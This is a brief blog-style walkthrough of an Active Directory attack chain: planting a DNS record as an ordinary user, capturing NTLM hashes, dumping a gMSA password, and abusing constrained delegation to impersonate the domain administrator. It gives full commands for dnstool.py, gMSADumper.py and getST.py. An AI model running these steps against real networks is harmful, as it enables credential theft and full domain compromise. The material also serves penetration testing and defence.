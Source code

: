 [back](/)

### Evil DNS zone and Constrained Delegation in Active Directory

Quite often during the attack on the Active Directory it turns out that the DNS server is used with default settings.

Thus, it is possible to add DNS entry with the rights of a regular domain user. The fact is that by default for the Authenticated Users group there are no restrictions on creating DNS records, such through access to LDAP.

![Image](/img/evil_dns/1.png)

```
python3 dnstool.py -u 'yourdomain.ru\Tiffany.Molina' -p password --action add -r web332211.domain.ru -d attacker-ip ldap-ip
```

![Image](/img/evil_dns/2.png)

![Image](/img/evil_dns/3.png)

After successfully adding a DNS entry associated with an IP attacker, you can get domain user netNTLM hash, that will access to the added DNS name fot example by smb or http with network netNTLM authentication. Moreover, this DNS record looks reliable, from the point of view of confidence in the resource. This can be used for targeted attacks.

So, after running Responder we get netNTLMV2 hash:

![Image](/img/evil_dns/4.png)

By collecting Active Directory dump and downloading it to the Bloodhound database, it became clear that the user Ted.Graves consists in the ITSupport group.

![Image](/img/evil_dns/5.png)

TED.graves can control the service account through the Group Managed Service Accounts functionality (GMSA), while having the ability to get password or NTLM belonging to SVC_INT user.

![Image](/img/evil_dns/6.png)

```
python3 gMSADumper.py -u username -p password -d domain.ru
```

![Image](/img/evil_dns/7.png)

SVC_INT user has the ability to request a service ticket and impersonate it for any user. Using in this case, the S4U2SELF/S4U2Proxy mechanism can be obtained by the privileges of the domain administrator.

![Image](/img/evil_dns/8.png)

```
getST.py -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password'  -hashes :NTLM-hash -impersonate Administrator
```

![Image](/img/evil_dns/9.png)

After receiving the service ticket and export it to the environment, you can use the wmiexec.py to get interactive access to domain controller

Useful links:

+ [DNSTool](https://github.com/dirkjanm/krbrelayx)
+ [Impacket](https://github.com/SecureAuthCorp/impacket)
+ [BloodHound](https://github.com/BloodHoundAD/BloodHound)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)